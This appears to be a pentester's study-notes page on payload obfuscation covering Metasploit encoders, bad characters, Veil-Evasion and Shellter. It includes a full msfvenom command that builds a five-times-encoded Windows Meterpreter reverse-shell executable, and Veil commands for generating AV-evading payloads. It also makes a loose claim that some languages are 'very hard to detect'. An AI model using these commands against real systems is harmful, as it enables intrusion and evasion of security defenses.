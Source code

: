 # Payload Encoding/Obfuscation

## Metasploit

### Best Encoders

<figure><img src="../../../../../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../../../.gitbook/assets/Screenshot 2025-07-19 201153.png" alt=""><figcaption></figcaption></figure>

### &#x20;Iterations

* When you encode a payload, it transforms the payload’s bytecode to obfuscate it.
* **Running multiple iterations** means the encoder is applied again and again, each time further obfuscating the payload.
* This can help evade signature-based detection because the final encoded payload looks different every time.

| Option         | Description                                 |
| -------------- | ------------------------------------------- |
| `-i <number>`  | Number of times to apply the encoder        |
| Typical values | 1 to 5 (higher values increase obfuscation) |

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -e x86/shikata_ga_nai -i 5 -f exe > payload.exe
```

### &#x20;Bad Characters

* Some bytes have special meanings in protocols or programming languages, e.g.:
  * Null byte (`\x00`) often terminates strings in C.
  * Newline (`\x0a`) or carriage return (`\x0d`) might break payload formatting.
* Including these bytes in your shellcode can cause it to fail or behave unpredictably

> Basicly we can say what are bad characters to avoid crash

## Veil-Evasion

### 🧪 Techniques Beyond Signature Evasion

Veil uses **multiple layers** to evade modern defenses:

| Technique              | Purpose                                                           |
| ---------------------- | ----------------------------------------------------------------- |
| 🔒 AES/XOR Encryption  | Encrypts payloads to hide from static signature-based AV.         |
| 🧬 Code Obfuscation    | Changes variable names, function calls, and structure.            |
| 🚫 Avoids API Hooks    | Bypasses common AV/EDR API monitoring patterns.                   |
| 🧩 Multiple Languages  | Generates payloads in C, PowerShell, Python → compiled to `.exe`. |
| 🔧 In-Memory Execution | Some payloads avoid touching disk at all.                         |

***

### 🛠️ What Veil Actually Does

Veil is a **payload generation and obfuscation framework**, mainly used for:

| Goal                              | Description                                                                   |
| --------------------------------- | ----------------------------------------------------------------------------- |
| ✅ **Signature Evasion**           | Avoid detection by AVs using obfuscation, encryption, encoding techniques.    |
| ✅ **Custom Payload Generation**   | Generate payloads in Python, C, C#, PowerShell, etc., for flexibility.        |
| ✅ **Post-Exploitation Support**   | Wrap Meterpreter, shellcode, VNC, or other stagers into undetectable formats. |
| ✅ **Shellcode Delivery**          | Supports delivery of custom shellcode (not just Metasploit payloads).         |
| ✅ **File-based Payload Droppers** | Payloads that can drop & execute in-memory (low I/O footprint).               |

***

### Commands

| **Command**          | **Description**                                                            |
| -------------------- | -------------------------------------------------------------------------- |
| `veil`               | Launch the Veil framework                                                  |
| `list`               | Show all available payloads (Python, C, PowerShell, etc.)                  |
| `use <payload/path>` | Select a specific payload to generate (e.g., `python/meterpreter/rev_tcp`) |
| `info`               | Display details about the selected payload                                 |
| `set LHOST <IP>`     | Set your attack machine’s IP address                                       |
| `set LPORT <PORT>`   | Set the port to receive the reverse connection                             |
| `generate`           | Generate the payload (saves to Veil’s output folder)                       |
| `exit`               | Quit the Veil console                                                      |

***

### Metasploit Use the payload created

```bash
set payload <path>
```

{% hint style="warning" %}
Low level languages like C++ , Ruby ,Go are very hard to detect.Unlike python which its not is high level.&#x20;
{% endhint %}

{% embed url="https://www.youtube.com/watch?t=696s&v=iz1twCSJZyo" %}

## Shelter

<figure><img src="../../../../../../.gitbook/assets/shellter.png" alt=""><figcaption></figcaption></figure>

